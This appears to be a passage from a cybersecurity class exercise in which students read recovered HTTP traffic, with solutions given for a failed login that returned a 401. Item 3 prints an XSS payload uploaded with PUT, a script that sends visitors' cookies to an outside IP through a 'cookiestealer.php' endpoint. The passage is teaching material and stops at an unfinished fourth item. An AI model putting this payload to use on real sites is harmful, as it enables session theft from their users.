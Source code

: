     **Questions:** 
      - What status code was returned in this response?

        - Solution: 401.

      - According to the response body, what kind of method was used to generate this HTTP response?

        - Solution: While we don't see the request, we can tell the attacker attempted to log into the login portal with a POST request.

     - What sort of information was input to this HTTP request?

         - Solution: The response body shows a username and password being entered into the web page. The response error status code 401 indicates an invalid authorization attempt.

    **Analysis:** Based on the information gathered from the status code and response body, what did the attacker try to do? Were they successful? 

    - Solution:  While we can't see the request, we can tell the attacker attempted to log into the login portal with a POST request. The response body shows a username and password being entered into the webpage while the the response error status code 401 indicates an invalid authorization attempt.

3. The following HTTP request and response were also recovered:

   **HTTP Request 1**

     ```HTTP
     PUT /XSS.html HTTP/1.1
     User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
     Host: www.fakesite.com/blog

     <script type="text/javascript">
     document.location='http://133.7.13.37/cookiestealer.php?c='+document.cookie;
     </script>
     ```

   **HTTP Response 3**

     ```HTTP
     HTTP/1.1 201 Created
     Date: Mon, 05 May 2014 12:28:53 GMT
     Server: Apache/2.2.14 (Win32)
     Content-type: text/html
     Content-length: 30
     Connection: Closed
     ```

   **Questions:** 
      - What type of method was used in the request?
      - What file name was uploaded to the site, according to the request body?

   **Analysis:** 
      - Based on the request method and request body, what do you think happened here? 
      - How did the server respond?

4. The next partial request and header was received by our HTTP server. The data after this log was completely lost:

   **HTTP Response 4**
